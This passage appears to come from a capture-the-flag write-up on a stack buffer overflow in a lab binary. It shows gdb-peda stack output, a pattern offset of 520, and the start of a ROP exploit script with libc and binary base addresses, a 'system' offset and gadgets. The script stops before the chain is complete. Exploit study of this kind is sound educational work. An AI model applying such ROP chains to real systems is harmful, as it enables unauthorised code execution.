 ```
   0x5555555555c1 <main>:       push   rbp
   0x5555555555c2 <main+1>:     mov    rbp,rsp
   0x5555555555c5 <main+4>:     sub    rsp,0x60
   0x5555555555c9 <main+8>:     mov    DWORD PTR [rbp-0x54],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd18 ("AsjAs9AsOAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6\377\177")
0008| 0x7fffffffdd20 ("OAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6\377\177")
0016| 0x7fffffffdd28 ("slAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6\377\177")
0024| 0x7fffffffdd30 ("AsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6\377\177")
0032| 0x7fffffffdd38 ("SAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6\377\177")
0040| 0x7fffffffdd40 ("sqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6\377\177")
0048| 0x7fffffffdd48 ("AsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6\377\177")
0056| 0x7fffffffdd50 ("WAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6\377\177")
[------------------------------------------------------------------------------]
```

We have overflowed the stack, and we can check the offset:

```
gdb-peda$ x/xg $rsp
0x7fffffffdd18: 0x73413973416a7341
gdb-peda$ pattern_offset 0x73413973416a7341
8304982355029422913 found at offset: 520
```

So we have an offset of 520.&#x20;

### Exploitation

I didn't really know how to craft this exploit, so I'll be using the official guide's script and trying to understand it.

First, since we can read the read the proc maps area, we can find the base addresses of which `libc` and the binary are loaded:

```python
license_base = 0x5556022af000
libc_base = 0x7f7d0d435000
```

Then, we can find the `system` function, ROP gadgets and a **writeable section of memory** using these base addresses:

```python
system = p64(libc_base + 0x0000000000048e50)
writeable = p64(license_base + 0x4000)
pop_rdi = p64(license_base + 0x0000181b) # pop rdi; ret;
pop_rdx = p64(libc_base + 0x000cb1cd) # pop rdx; ret;
mov = p64(libc_base + 0x0003ace5) # mov qword ptr [rdi], rdx; ret;
```
